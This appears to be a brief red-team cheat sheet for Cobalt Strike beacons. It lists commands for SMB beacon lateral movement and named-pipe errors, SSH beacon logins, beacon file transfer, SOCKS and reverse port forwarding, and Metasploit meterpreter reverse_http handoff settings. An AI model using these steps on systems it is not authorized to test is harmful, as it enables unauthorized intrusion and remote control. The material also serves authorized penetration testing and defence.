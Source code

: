 Configuration:
1. **host**: campaigns.domain.com
2. **beacon**: polling.campaigns.domain.com
3. Interact with a beacon, and `sleep 0`


### SMB Beacon   

```powershell
link [host] [pipename]
connect [host] [port]
unlink [host] [PID]
jump [exec] [host] [pipe]
```

SMB Beacon uses Named Pipes. You might encounter these error code while running it.

| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |


### SSH Beacon

```powershell
# deploy a beacon
beacon> help ssh
Use: ssh [target:port] [user] [pass]
Spawn an SSH client and attempt to login to the specified target

beacon> help ssh-key
Use: ssh [target:port] [user] [/path/to/key.pem]
Spawn an SSH client and attempt to login to the specified target

# beacon's commands
upload                    Upload a file
download                  Download a file
socks                     Start SOCKS4a server to relay traffic
sudo                      Run a command via sudo
rportfwd                  Setup a reverse port forward
shell                     Execute a command via the shell
```

### Metasploit compatibility

* Payload: windows/meterpreter/reverse_http or windows/meterpreter/reverse_https
* Set LHOST and LPORT to the beacon
* Set DisablePayloadHandler to True
* Set PrependMigrate to True
* exploit -j
